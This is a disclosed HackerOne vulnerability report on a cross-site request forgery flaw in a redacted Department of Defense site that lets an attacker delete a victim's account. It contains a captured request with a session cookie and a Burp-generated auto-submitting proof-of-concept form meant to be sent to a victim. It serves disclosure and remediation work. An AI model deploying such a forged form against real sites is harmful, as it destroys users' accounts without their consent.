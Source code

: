 # CSRF to delete accounts [HtUS]

## Report Details
- **Report ID**: 1629828
- **URL**: https://hackerone.com/reports/1629828
- **State**: Closed
- **Severity**: high
- **Submitted**: 2022-07-07T14:17:58.520Z
- **Disclosed**: 2023-05-15T15:16:28.852Z

## Reporter
- **Username**: nightm4re
- **Name**: N/A

## Team
- **Name**: N/A
- **Handle**: deptofdefense

## Vulnerability Information
Hello,
I Have an endpoint in ██████████that's vulerable to CSRF which lead to delete a victim's account

Steps to reproduce:
1. Nevgaite to ███Create an account
2. Click on your profile
3. You will see DELETE ACCOUNT button
4. Click on it and type YES in the input
5. Make sure your burpsuite is on and click delete account button

```
POST /users/deleteAccount HTTP/1.1
Host: ██████
Cookie: _ga=GA1.2.984523169.1657131465; _gid=GA1.2.2029769492.1657131465; session=eyJwYXNzcG9ydCI6eyJ1c2VyIjoibmlnaHRtNHJlQHdlYXJlaGFja2Vyb25lLmNvbSJ9fQ==; session.sig=S8rkHNPfoRIIU66VUCbDCaV_Kb4; _ga_FCSTM1E00P=GS1.1.1657145372.2.1.1657145650.0
User-Agent: Mozilla/5.0 (Windows NT 10.0; Win64; x64; rv:102.0) Gecko/20100101 Firefox/102.0
Accept: */*
Accept-Language: en-US,en;q=0.5
Accept-Encoding: gzip, deflate
X-Requested-With: XMLHttpRequest
Origin: https://███████
Referer: https://█████/users/deleteAccount
Sec-Fetch-Dest: empty
Sec-Fetch-Mode: cors
Sec-Fetch-Site: same-origin
Content-Length: 0
Te: trailers
Connection: close
```

6. Capture the request and click right > Engagement Tools > Generate CSRF POC

```
<html>
  <!-- CSRF PoC - generated by Burp Suite Professional -->
  <body>
  <script>history.pushState('', '', '/')</script>
    <form action="https://████/users/deleteAccount" method="POST">
      <input type="submit" value="Submit request" />
    </form>
  </body>
</html>
```

7. Copy the HTML Code and put to your server and send the page to the victim
8. Once the vicitm opnening the page his account will be deleted

## Impact

An attacker can delete vicitm's account

## Attachments
No attachments

